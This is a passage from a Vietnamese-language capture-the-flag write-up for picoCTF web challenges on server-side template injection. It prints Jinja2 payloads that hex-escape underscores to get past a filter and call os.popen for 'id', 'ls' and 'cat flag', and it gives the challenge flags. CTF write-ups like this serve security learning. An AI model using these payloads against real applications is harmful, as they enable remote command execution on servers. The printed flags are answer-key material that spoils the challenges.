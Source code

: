 ```<?php echo 123;?>```
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('id')|attr('read')()}}
```

Sử dụng và mình đã thành công RCE

![image](https://hackmd.io/_uploads/HklTi8OKsJe.png)

thử list các file

```python
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('ls')|attr('read')()}}
```

![image](https://hackmd.io/_uploads/rkg0UdFoyx.png)

Thấy có file flag và chỉ cần đọc thôi 

```python
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('cat flag')|attr('read')()}}
```

![image](https://hackmd.io/_uploads/ryhyw_KiJl.png)

`Flag: picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_3066c7bd}`

## web/SSTI2

![image](https://hackmd.io/_uploads/B1VS8utjke.png)

### Hints

SSTI

### Solution

Bài này giống bài trước nhưng có filter dấu `_`

![image](https://hackmd.io/_uploads/SJvkIOFiyl.png)

Okey thì payload trước đã có thể bypass rồi nên mình xài lại thôi 

![image](https://hackmd.io/_uploads/ryMEUOtiyx.png)

`Flag: picoCTF{sst1_f1lt3r_byp4ss_e3f3b57a}`

## web/3v@l

![image](https://hackmd.io/_uploads/rybAP_Fs1e.png)
